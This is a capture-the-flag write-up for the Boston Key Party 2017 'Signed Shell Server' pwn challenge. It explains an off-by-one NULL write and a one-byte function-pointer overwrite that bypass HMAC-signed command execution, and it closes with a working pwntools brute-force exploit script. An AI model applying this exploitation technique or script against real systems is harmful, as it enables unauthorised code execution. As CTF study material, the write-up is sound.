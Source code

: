 ```yaml
---
title: 'Boston Key Party 2017: Signed Shell Server (pwn 200)'
date: 2017-02-27 00:00:00 Z
categories:
- writeup
tags:
- cat/pwn
layout: post
author: f0rki, creed
---
```


* **Category:** pwn
* **Points:** 200

## Write-up

You can do two things:

1. Sign a command
2. Execute a signed command

```
Welcome to Secure Signed Shell
1) sign command
2) execute command
>_ 1
what command do you want to sign?
>_ ls
signature:
0fcc9e22ff4cec3f5afbaf5906dba086
```

So we can see that the challenge signs with md5 by default!

## out-of-bounds NULL byte write -- force switch to sha1 

They use a HMAC based on md5 or sha1 depending on a global flag (set based on
argc). We call this `use_md5`. This is a byte sized varialbe that is placed
right behind the `global` buffer, which has size `0x100`. We can overwrite the
`use_md5` flag with a zero byte with the calls:

```c
i = read(global, 0x100, 0); // send exactly 255 bytes
global[i] = 0;              // out of bounds write to the use_md5 flag
```

This snippet of code is repeated in both the `sign_it` and `execute_it`
functions.

## overwrite least significant byte of a function pointer

There is a off-by-one error, which allows us to overwrite the last byte of the
first function pointer. We are targeting the `deny_ptr` in this struct:

```c
struct exec_guy {
    char hash[20];
    void (*deny_ptr)(char*);
    void (*success_ptr)(char*);
}
```

At the start of the `execute_it` function, `exec_guy` will be set to either
`m_exec_guy` or `s_exec_guy` depending on whether md5 or sha1 is used. If the
`use_md5` flag is true, the `exec_guy` is set to 
`s_exec_guy + 1 == m_exec_guy`. If we switch to using SHA1 afterwards, the HMAC
is copied to `exec_guy`, which is actually `s_exec_guy + 1`. So there is one
byte too less available for a full SHA1 HMAC and it will overflow into the
first byte of the `deny_ptr` field.

Since we're on little endian, this means we can control the least significant
byte of the function pointer. If we change the `deny_ptr` to the `success_ptr`
we effectively bypass the signature check.

```
[0x004010a0]> afl~command
0x00400d36    1 0    -> 37   sym.deny_command
0x00400d5b    1 0    -> 27   sym.exec_command
```

So we have to find a HMAC, whose last byte is `0x5b`. So first we checked
whether one of the HMACs we could legitimately obtain would fit our purposes.
We can do this by switching to SHA1 with an overlong command in the `sign_it`
function and then obtain the HMACs:

```
[*] 'ls' -> '4b0eef0a2c6a48fd0f52460231fe61bbfa8f314c' --> 0x400d4c     <-- printf something
[*] 'pwd' -> 'bf34cf2a14f5bbde6c75da9c6ba421fd57772d68' --> 0x400d68    <-- this jumps inside the right function at least, but seems to break
[*] 'id' -> 'e1b428253b9c847348c522e27d00a151f7db9458' --> 0x400d58     <-- nop; leave;ret
[*] 'whoami' -> 'ce6bd6b5229cf202a96ece2b36763e1adec566d1' --> 0x400dd1 <-- somewhere inside init_key
```

So none of those did work out in the end. The `pwd` HMAC looked pretty
promising as it triggers a jump into the `exec_command` function. But then crap
is loaded into the registers and it fails.

To use one of these commands we need to still send an overlong line, with
contents that are not hashed. The HMAC covers only the data up to the first
NULL byte, so we can send for example:

```python
"ls\n" + "\x00" * 253
```

This allows us to trigger the buffer overflow into the function pointer, with
one of the known HMACs.

## exploit recap

0. Call `execute_it`
1. First `exec_guy` is set to `m_exec_guy`, because `use_md5` is true.
2. Use off-by-one error to overwrite the `use_md5` flag with 0, so that SHA1 
   will be used. `exec_guy` is still set to `m_exec_guy`.
3. `memcpy` call at `0x00401261` will then overwrite the least significant 
   byte of the first function pointer.
    - The `src` of `memcpy` is the computed SHA1 HMAC
    - We need to find a HMAC which ends in `0x5b`
4. The function pointers are always loaded relative to the `m_exec_guy` so we 
   can use them safely even if we switched to SHA1
5. shell? shell! (or just cat flag)

In the end we just opted to bruteforce, until we hit a byte that worked. We
tried with a bunch of commands:

```sh
cat flag; echo <random stuff>
```

Eventually we got a working byte and the flag.

```python
from pwn import *  # noqa
import string
import random 

velf = ELF("./sss")
# this is the byte we'd need...
last_byte = velf.symbols['exec_command'] & 0xff
log.info("last byte of exec_command 0x{:x}".format(last_byte))

env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libcrypto.so.1.0.0")}

def make_vp():
    #return process("./sss_dealarmed", env=env)
    return remote("54.202.7.144", 9875)

# less verbosity for pwntools
context.log_level = "error"
while True:
    cmd = "cat flag; echo " + "".join(random.sample(string.letters, 5))
    vp = make_vp()
    # gdb.attach(vp, gdbscript)

    try:
        # now overflow into the use_md5 flag
        # which triggers a buffer overflow into the fptr
        vp.recvuntil(">_")
        vp.sendline("2")
        vp.recvuntil(">_")
        c = "{}\n\x00".format(cmd)
        c += "\x00" * (256 - len(c))
        vp.send(c)
        vp.recvuntil(">_")
        vp.sendline("wurscht")
        line = vp.recvrepeat(timeout=0.5)
        log.info("got line: " + repr(line))

    except:
        pass
    
    vp.close()
```
